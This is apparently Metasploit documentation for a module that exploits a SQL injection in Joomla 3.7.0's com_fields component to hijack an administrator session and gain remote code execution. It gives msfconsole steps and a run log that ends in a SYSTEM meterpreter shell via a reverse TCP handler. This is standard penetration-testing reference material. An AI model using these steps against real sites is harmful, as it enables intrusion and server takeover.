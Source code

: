 ## Vulnerable Application

  This module exploits a SQL Injection vulnerability in the `com_fields` component which was introduced to the core of Joomla in version 3.7.0.
  With the SQLi, it's possible to enumerate cookies of Administrator and Super User users, and hijack one of their sessions. If no Super User is authenticated, the RCE portion will not work. If a session hijack is available, one of the website templates is identified, and our payload is added to the template as a new file, and then executed.

## Verification Steps


  1. Start msfconsole
  2. Do: `use exploit/unix/webapp/joomla_comfields_sqli_rce`
  3. Do: `set rhost [ip]`
  4. Do: `set tageturi [uri]`
  5. Do: `exploit`
  6. Get a shell

## Scenarios

### Joomla 3.7.0 on Windows 7 SP1 with Super User authenticated

```
msf exploit(unix/webapp/joomla_comfields_sqli_rce) > run

[*] Started reverse TCP handler on 172.22.222.138:4444
[*] 172.22.222.122:80 - Retrieved table prefix [ unqi0 ]
[*] 172.22.222.122:80 - Retrieved cookie [ ejn9i2c5srk6gchhai4cikdkm3 ]
[*] 172.22.222.122:80 - Retrieved unauthenticated cookie [ 33effe3d96e4c5e749f33b9d639ca36b ]
[+] 172.22.222.122:80 - Successfully authenticated
[*] 172.22.222.122:80 - Creating file [ zM8ZvIAAwxE.php ]
[*] 172.22.222.122:80 - Following redirect to [ /joomlatest/administrator/index.php?option=com_templates&view=template&id=503&file=L3pNOFp2SUFBd3hFLnBocA%3D%3D ]
[*] 172.22.222.122:80 - Token [ df2760a9614efc2566917148ee379c42 ] retrieved
[*] 172.22.222.122:80 - Template path [ /templates/beez3/ ] retrieved
[*] 172.22.222.122:80 - Insert payload into file [ zM8ZvIAAwxE.php ]
[*] 172.22.222.122:80 - Payload data inserted into [ zM8ZvIAAwxE.php ]
[*] 172.22.222.122:80 - Executing payload
[*] Sending stage (37543 bytes) to 172.22.222.122
[+] Deleted zM8ZvIAAwxE.php

meterpreter > getuid
Server username: SYSTEM (0)
meterpreter > sysinfo
Computer    : WIN-V438RLMESAE
OS          : Windows NT WIN-V438RLMESAE 6.1 build 7601 (Windows 7 Professional Edition Service Pack 1) AMD64
Meterpreter : php/windows
meterpreter >
```
